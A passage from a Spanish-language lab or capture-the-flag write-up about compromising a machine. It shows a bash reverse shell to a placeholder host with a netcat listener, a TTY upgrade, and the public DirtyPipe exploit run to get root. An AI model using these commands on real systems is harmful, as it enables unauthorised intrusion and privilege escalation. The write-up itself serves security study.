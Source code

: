 ## Intrusión en el sistema
Tras probar varios comandos que funcionan de manerca correcta voy a intentar entablarme una revershell para ello ejecutamos el siguiente comando.

```shell
> exec bash -c "bash -i >& /dev/tcp/MiIP/492 0>&1"
```
Estando en escucha por el otro puerto con `nc`

```shell
nc -lvnp 492
```
vemos que nos entabla una shell por lo tanto vamos a realizar un pequeño tratamiento para que tengamos una shell más cómoda.

## Tratamiento de la TTY
Importamos la shell desde python3

```shell
python3 -c  'import pty;pty.spawn("/bin/bash")'
Ctrl Z
```
La ponemos en segundo plano y la recargamos
```shell
ssty raw -echo: fg
```
Por último ponemos el siguiente comando:
```shell
reset xterm
```
Una vez dentro de la máquina otra vez exportamos las variable de entorno para tener una bash 
```shell
export SHELL=bash
export TERM=xterm
```
De esta manera podemos ver la primera flag `user.txt`

## Escalada de privilegios

Se puede realizar de varias maneras yo voy a usar `dirtyPipe` puedes acceder al recurso en el siguiente enlace:

```
https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit
```
Esta vulnerabilidad se puede acontecer cuando podemos compilar con gcc , es capaz de inyectar y modificar el fichero `/etc/passwd` y crea un usuario o modificar root. Simplemente tenemos que copiar el exploit  en un directorio temporal compilarlo y ejecutarlo.
```shell
gcc privesc.c -o exploit
```
```shell
./exploit
```
Por último tenemos acceso completo a la máquina 
```shell
Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "aaron"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)
whoami
root
```
## Forma alternativa
Comprobamos si encontramos algún puerto abierto intersante en la mauina que no encontrarmos anteriormente
